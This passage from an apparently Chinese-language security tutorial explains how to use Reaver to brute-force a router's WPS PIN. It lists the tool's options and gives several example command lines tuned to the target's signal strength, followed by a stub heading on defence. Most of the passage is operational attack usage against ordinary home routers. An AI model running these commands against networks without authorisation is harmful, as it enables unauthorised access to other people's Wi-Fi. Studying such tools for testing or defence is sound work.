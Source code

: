 ```
Reaver -i mon0 -b xx:xx:xx:xx -vv

```

reaver命令参数

> -i 监听后接口名称
> 
> -b 目标mac地址
> 
> -a 自动检测目标AP最佳配置
> 
> -S 使用最小的DH key（可以提高PJ速度）
> 
> -vv 显示更多的非严重警告
> 
> -d 即delay每穷举一次的闲置时间 预设为1秒
> 
> -t 即timeout每次穷举等待反馈的最长时间
> 
> -c 指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 （非TP-LINK路由推荐–d9 –t9 参数防止路由僵死

示例：

```
reaver -i mon0 -b MAC -a -S –d9 –t9 -vv

```

应因状况调整参数（-c后面都已目标频道为1作为例子） 目标信号非常好:

```
reaver -i mon0 -b MAC -a -S -vv -d0 -c 1

```

目标信号普通:

```
reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1

```

目标信号一般:

```
reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

```

0×03 防御只是一个步骤.安全是一个系统.
----------------------

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/ceb8489ba449bcf181a863aedb64574a58d28275.jpg)

看我任何突MAC封锁！
